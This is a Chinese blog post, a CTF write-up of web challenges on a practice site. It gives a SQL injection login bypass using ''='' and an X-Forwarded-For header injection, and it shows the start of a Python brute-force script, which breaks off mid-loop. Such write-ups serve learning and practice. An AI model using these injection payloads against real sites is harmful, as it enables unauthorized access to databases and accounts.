 ```yaml
---
title: shiyanbar-writeup
date: 2017-10-02 00:00:37
tags:
  - CTF
  - 信息安全
  - web安全
  - write-up
categories: 信息安全
---
```


最近想参加CTF的比赛，于是国庆放假做一下实验吧的web部分题目 并简单做个记录，并非完全是自己的writeup吧 和别人共同讨论吧！



## 登陆一下好吗??

> 不要怀疑,我已经过滤了一切,还再逼你注入,哈哈哈哈哈!

题干给出这些提示，尝试一些注入关键字
`union`、`or`、`||`、`select`、`#`、`--`、`//` 等等这些字符均被过滤 大小写无用
但是`'`并未过滤 初步认为这应该不是一个寻常的SQL注入题吧？猜测SQL语句应该为

```
select * from admin where username="$_POST['u']" and password="$_POST['p']"
```

而后和朋友讨论后 得出

```
select * from admin where username=''='' and password=''=''
```

其实语句就变成了这样

```
select * from admin where 1 and 1
```

提交`'='`后得flag，并显示所有的username和password

## who are you?

> 我要把攻击我的人都记录db中去!

打开页面显示 **your ip is :x.x.x.x**

初步猜测后端代码获取访问者的ip并插入到数据库中，于是尝试修改提交header中的xff字段注入

[![sql test](https://isky0t.github.io/images/shiyanbar01sql.png)](https://isky0t.github.io/images/shiyanbar01sql.png)

经过测试发现存在注入，和猜测的没错，只不过这里不能用`if(expr1,expr2,expr3)`函数，因为遇到`,`就断了。应该是和insert中的冲突了吧，于是只能用两个and来判断 ，决定尝试写个Python跑一下

```python
#!/usr/bin/env python
# encoding: utf-8

import time
import urllib2

class Main():
    url = "http://ctf5.shiyanbar.com/web/wonderkun/index.php"
    payloads = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'  # 所有的字符串
    result = ''  # 存放结果
    print 'Start to SQL test:'
    for i in range(1, 33):
        for payload in payloads:
```